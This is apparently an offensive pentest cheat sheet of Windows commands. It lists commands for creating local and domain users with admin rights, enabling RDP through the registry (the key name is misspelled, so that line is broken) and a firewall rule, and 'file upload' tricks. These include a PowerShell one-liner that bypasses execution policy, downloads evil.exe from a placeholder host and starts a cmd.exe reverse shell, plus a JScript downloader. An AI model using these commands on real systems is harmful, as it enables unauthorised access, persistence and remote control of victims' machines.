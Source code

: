 # Windows usefull commands & pentest

## users

Add user 
```
net user [username] [password] /ADD
```

Add user to domain 
```
net user [username] [password] /ADD /DOMAIN
```

Add user as admin
```
net localgroup administrators [username] /add
```

## RDP
- Enable RDP
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

- Add firewall authorisation
```
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow 
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the 
Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes 
profile=private,domain localport=3389 protocol=tcp
```

## File Upload

- PowerShell download and execute
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile 
New-Object System.Net.WebClient.DownloadFile('http://x.x.x.x/evil.exe','evil.exe'); 
evil.exe x.x.x.x 443 -e cmd.exe
```

- VBS file upload
  - fu.js
```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1"); 
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false); 
WinHttpReq.Send(); 
WScript.Echo(WinHttpReq.ResponseText); 
```
  - execute
```
cscript /nologo fu.js http://ip/bullshit > uploaded_file
```
